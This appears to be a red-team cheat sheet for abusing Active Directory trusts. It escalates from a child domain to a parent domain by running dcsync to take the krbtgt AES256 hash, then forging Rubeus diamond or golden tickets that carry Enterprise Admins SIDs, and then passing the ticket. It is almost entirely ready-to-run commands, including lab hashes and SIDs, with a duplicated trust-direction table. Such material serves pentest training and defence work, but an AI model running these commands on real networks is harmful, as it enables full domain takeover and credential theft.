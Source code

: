 
| Value | Trust Direction                 |
| ----- | ------------------------------- |
| 0     | `TRUST_DIRECTION_DISABLED`      |
| 1     | `TRUST_DIRECTION_INBOUND`       |
| 2     | `TRUST_DIRECTION_OUTBOUND`      |
| 3     | `TRUST_DIRECTION_BIDIRECTIONAL` |

| Value | Trust Direction                 |
| ----- | ------------------------------- |
| 0     | `TRUST_DIRECTION_DISABLED`      |
| 1     | `TRUST_DIRECTION_INBOUND`       |
| 2     | `TRUST_DIRECTION_OUTBOUND`      |
| 3     | `TRUST_DIRECTION_BIDIRECTIONAL` |

```powershell
39610acedf7a66db295ee28263e7ad75234ae7884dbde20a4890bf97f7b8872b

execute-assembly ~/opt/Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /sids:S-1-5-21-1470357062-2280927533-300823338-519 /krbkey:39610acedf7a66db295ee28263e7ad75234ae7884dbde20a4890bf97f7b8872b /nowrap
```
##### Child to Parent Abuse

Enumerate trusts in place
```powershell
ldapsearch (objectClass=trustedDomain) --attributes trustPartner,trustDirection,trustAttributes,flatName
```

Obtain krbtgt AES256 hash of the child domain
```powershell
dcsync dublin.contoso.com DUBLIN\krbtgt

ab41d2c550af7cc84b40fd3b69daeab67e1662f7bf662fd1572dd1fa9e949a56
S-1-5-21-2958544638-1589230383-838459903
S-1-5-21-1076548718-1118529210-2193484809
```

Obtain child domain SID and parent domain SID
```powershell
ldapsearch (objectClass=domain) --attributes objectSid

ldapsearch (objectClass=domain) --attributes objectSid --hostname lon-dc-1.contoso.com --dn DC=contoso,DC=com
```

Create diamond ticket (OPSEC SAFE) or a golden ticket offline - `/sids` = child domain
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /sids:S-1-5-21-2958544638-1589230383-838459903-519 /krbkey:ab41d2c550af7cc84b40fd3b69daeab67e1662f7bf662fd1572dd1fa9e949a56 /nowrap

C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /user:Administrator /domain:dublin.contoso.com /sid:[Child SID] /sids:[Parent EA GROUP SID] /aes256:[Child KRBTGT HASH] /outfile:C:\Users\Attacker\Desktop\golden
```

Inject ticket into current session
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:

kerberos_ticket_use C:\Users\Attacker\Desktop\[TICKET]
```

Enum
```powershell
ldapsearch (|(objectClass=domain)(objectClass=organizationalUnit)(objectClass=groupPolicyContainer)) *,ntsecuritydescriptor --dn DC=contoso,DC=com
```